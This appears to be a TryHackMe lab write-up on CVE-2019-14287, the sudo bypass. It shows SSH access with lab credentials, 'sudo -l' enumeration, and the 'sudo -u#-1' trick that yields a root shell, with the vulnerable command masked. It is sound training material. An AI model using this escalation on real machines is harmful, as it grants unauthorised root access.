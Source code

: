 # Sudo Security Bypass

## Room
This a Try Hack Me room called `Sudo Security Bypass` 

The Web address for this room is
https://tryhackme.com/room/sudovulnsbypass

## Synopsis.
A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program. Room One in the SudoVulns Series


---

## Getting started

Make sure you are connected to the Try Hack Me VPN before starting!

The first thing I do when starting a room is to note the victim and attacker's IP as given by Try Hack Me.

```
export MYIP=10.9.9.10
export IP=10.10.10.10
```

This format allows me to copy and paste in any terminal and use `$IP` anytime I need the victim's IP or `$MYIP` if I need my own

---

## Task 1 - Deploy!

This room is very beginner friendly. Enjoy the read, hit deploy, go.

---

## Task 2 - Security Bypass

I highly recommend reading through the explanations before getting started with the rest. You will find it very useful.

### #1 - What command are you allowed to run with sudo?

We are told to SSH to the machine with the following information (and we didn't even have to work for it!):
```
port: 2222
Username: tryhackme
Password: tryhackme
```

This gives us the following command:
```
ssh -p 2222 tryhackme@$IP
```

Once we are in, we can run sudo -l to see what we can execute as sudo.
```
$ sudo -l
User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /xxx/xxxx
```    

You will find only one command is available. Go back to the explanations above the questions. this format `(ALL, !root)` is the one susceptible to CVE-2019-14287. It means we can pretend to be root by acting as user with id -1 and effectively become root.

A great ressource to always try when you find commands you can execute with sudo-l is https://gtfobins.github.io/

Type in the name of the command you found with sudo -l and click on the result to see the page.

The result is quite self-explanatory: 

```
Shell
It can be used to break out from restricted environments by spawning an interactive system shell.
  xxxx
```

This tells us we can escalate our privileges if we are able to run this command acting as root (with sudo).

Now let's piece it all together by following the hints from the description and adding this command :

```
sudo -u#-1 xxxx
```
Again replace xxxx with the command.

You should now be root

```
tryhackme@sudo-privesc:/$ sudo -u#-1 xxxx
root@sudo-privesc:/# 
```

### #2 - What's the flag in /root/root.txt?

And now, for the easy part, get the root.txt file in the root folder:

```
cd /root
ls
cat root.txt
```
